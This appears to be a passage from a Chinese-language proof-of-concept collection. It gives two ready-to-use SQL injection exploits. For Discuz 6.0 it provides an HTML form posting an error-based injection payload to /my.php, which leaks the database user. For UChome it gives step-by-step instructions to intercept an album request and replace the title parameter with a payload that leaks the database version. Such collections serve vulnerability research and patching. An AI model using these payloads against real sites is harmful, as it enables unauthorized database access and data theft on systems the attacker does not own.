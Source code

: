 参考链接：http://www.gltc.cn/30161.html
#### 演示5：Discuz 6.0 /my.php SQL注入漏洞
把以下EXP保存成HTML文档

<form method='post' action='http://dz6.0/my.php?item=buddylist'> <input type='hidden' value="1111" name="descriptionnew[1' and(select 1 from(select count(*),concat((select (select (select concat(0x7e,user(),0x7e,0x5430304C5320474F21,0x7e)  limit 0,1)) from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a) and 1=1#]" /><br /> <input type='submit' value='buddysubmit' name='buddysubmit' /><br /> </form>

使用浏览器打开

![](https://github.com/cckuailong/PocCollect/blob/master/Web/Discuz/image/11.png)

参考链接：https://bugs.shuimugan.com/bug/view?bug_no=80359
#### 演示6：UChome 注入漏洞1
首先注册用户 然后新建一个相册 

http://127.0.0.1/uchome/space.php?uid=2&do=album&view=me

打开这里点上传 新建完了之后 上传一个图片 完了之后 点进相册 然后在点刚刚上传的图片 点击管理图片 直接确认 然后抓包 把titie的那个改成

title%5B1' and (select 1 from (select count(),concat(version(),floor(rand(0)2))x from information_schema.tables group by x)a)#%5D

原始内容可能是title%5B1%5D 修改成上面的 就可以看到错误信息了

![](https://github.com/cckuailong/PocCollect/blob/master/Web/Discuz/image/12.png)
